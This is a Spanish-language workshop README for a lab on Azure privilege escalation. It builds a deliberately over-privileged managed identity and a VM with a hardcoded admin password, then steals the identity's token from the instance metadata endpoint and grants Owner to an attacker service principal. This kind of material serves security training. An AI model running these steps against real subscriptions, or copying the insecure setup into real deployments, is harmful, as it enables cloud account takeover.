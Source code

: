 # Escalada-de-Privilegios-en-Azure

## Fase 1: Configuración del Entorno Vulnerable

### Paso 1: Crear un Grupo de Recursos

Este grupo de recursos contendrá todos los elementos del laboratorio.

az group create --name lab-escalation --location eastus

### Paso 2: Crear una Identidad Administrada Asignada por el Usuario

Esta identidad tendrá permisos elevados que serán explotados más adelante.

az identity create --name labidentity --resource-group lab-escalation

### Paso 3: Introducir la Vulnerabilidad Principal

Asignamos el rol de User Access Administrator a la identidad sobre toda la suscripción. Este es un privilegio excesivo y el núcleo de la vulnerabilidad, ya que este rol permite gestionar los permisos de otros usuarios.

Obtener el ID de la suscripción

subscriptionId=$(az account show --query id --output tsv)

Obtener el ID de la entidad de servicio de la identidad administrada

identityPrincipalId=$(az identity show --name "labidentity" --resource-group "lab-escalation" --query principalId --output tsv)

 Asignar el rol de "User Access Administrator" a la identidad administrada sobre toda la suscripción
 ESTE ES EL CAMBIO CLAVE
 
az role assignment create \
    --assignee $identityPrincipalId \
    --role "User Access Administrator" \
    --scope "/subscriptions/$subscriptionId"


### Paso 4: Crear una Máquina Virtual y Asignarle la Identidad Administrada

Esta VM será el punto de entrada para los participantes.

az vm create \
    --resource-group "lab-escalation" \
    --name "compromised-vm" \
    --image "Ubuntu2204" \
    --admin-username "franklin" \
    --admin-password "Franklin.123456" \
    --assign-identity "labidentity"

### Paso 5: Crear un Usuario con Permisos Limitados

Creamos un Service Principal con permisos para ejecutar comandos en la VM. El rol Virtual Machine Contributor es necesario para permitir la ejecución de run-command.

Obtener el ID de la VM

vmId=$(az vm show --resource-group "lab-escalation" --name "compromised-vm" --query id --output tsv))

Crear el Service Principal con permisos sobre la VM

sp_credentials=$(az ad sp create-for-rbac --name "attacker-sp" --role "Virtual Machine Contributor" --scopes $vmId)

Mostrar las credenciales que se entregarán a los participantes

echo "--- Credenciales para los Participantes del Workshop ---"
echo $sp_credentials
echo "--------------------------------------------------------"

Acción: Copiar  (appId, password, tenant) generadas


¡Importante! Guarde y proporcione a los participantes del workshop el App ID, Password y Tenant ID generados en el último paso.

## Fase 2: Ejecución de la Escalada de Privilegios 

### 2.1. Obtener Acceso Inicial y Verificar Control
Iniciar sesión con las credenciales de atacante y confirmar que se pueden ejecutar comandos en la VM.

1. Iniciar sesión con las credenciales proporcionadas
   
az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"


### 2. Descubrimiento de la Identidad Administrada

Dentro de la VM (simulado a través de run-command), el siguiente paso es descubrir la identidad administrada.

Este script completo se ejecuta dentro de la VM para obtener el token y listar recursos

   1. Instalar silenciosamente jq, una herramienta necesaria para parsear JSON
      
      sudo apt-get update > /dev/null 2>&1 && sudo apt-get install -y jq > /dev/null 2>&1

  3. Obtener el token de acceso de la identidad, usando jq para extraerlo
     
        token=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true | jq -r .access_token)
        
      3. Usar el token para realizar una llamada a la API de Azure y listar recursos
         
       curl -s -X GET -H "Authorization: Bearer $token" "https://management.azure.com/subscriptions/$(az account show --query id -o tsv)/resourceGroups/lab-escalation-rg/resources?api-version=2021-04-01"

Resultado Esperado: Una salida JSON con la lista de todos los recursos del grupo lab-escalation. Esto prueba que el atacante ahora opera con los permisos de la identidad (User Access Administrator).

### Paso 2.1: Escalada Final a Propietario (Owner)
Utilizar el poder adquirido para tomar control total.
A. (En la máquina local) Obtener el Object ID del Service Principal atacante

user_object_id=$(az ad sp list --display-name "attacker-sp" --query "[0].id" -o tsv)
echo "El Object ID del atacante es: $user_object_id"


B. (Ejecutado en la VM) Usar la identidad para asignar el rol de Owner al atacante

  Reemplaza <Tu_Object_ID> y <ID_de_tu_Suscripcion> con tus valores.
  
  az login --identity > /dev/null 2>&1

  Asignar el rol de Propietario al Object ID del atacante
  
 az role assignment create --assignee "<Tu_Object_ID>" --role "Owner" --scope "/subscriptions/<ID_de_tu_Suscripcion>"

    
Resultado Esperado: Una salida JSON que confirma la creación de la nueva asignación de rol.

para deslogearte de la identidad administrada ejecuta el siguiente script

az logout

e inicia sesion con el owner que es el service principal

az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"

(En la máquina local) El atacante, ahora Owner, crea un nuevo grupo de recursos

az group create --name "prueba-de-control-total" --location "westus"
